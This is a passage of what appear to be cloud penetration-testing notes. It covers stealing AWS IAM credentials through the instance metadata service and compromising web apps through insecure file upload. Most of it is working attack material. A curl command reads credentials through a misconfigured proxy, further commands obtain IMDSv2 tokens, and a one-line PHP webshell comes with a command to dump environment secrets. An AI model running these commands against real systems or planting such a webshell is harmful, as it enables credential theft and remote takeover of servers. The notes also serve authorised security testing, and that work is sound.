 #### Instance Metadata Service URL
```
http://169.254.169.254/latest/meta-data
```

#### Additional IAM creds possibly available here

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM Role Name>
```

- Can potentially hit it externally if a proxy service (like Nginx) is being hosted in AWS and misconfigured

```bash
curl --proxy vulndomain.target.com:80 http://169.254.169.254/latest/meta-data/iam/security-credentials/ && echo
```

#### IMDS Version 2 has some protections 
- but these commands can be used to access it
```bash
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` 
curl http://169.254.169.254/latest/meta-data/profile -H "X-aws-ec2-metadata-token: $TOKEN"
```

## Web application vulnerabilities
- Here are some generic things ot look for:
  - Out of date web technologies with known vulns
  - SQL or command injection vulns
  - Server-side-request forgery (SSRF)
  - Arbitrary file upload
- Good place to start post shell:
  - Creds in metadata service
  - Certificates
  - Environment variables
  - Storage Accounts

### Insecure file upload
#### Upload a webshell to a insecure webapp
- Simple webshell
```
<?php
	system($_REQUEST['cmd']);
?>
```

#### Execute env
```
?cmd=env
```
- if the app service contains environment variables `IDENITY_HEADER` and `IDENTITY_ENDPOINT`, it has a managed identity.

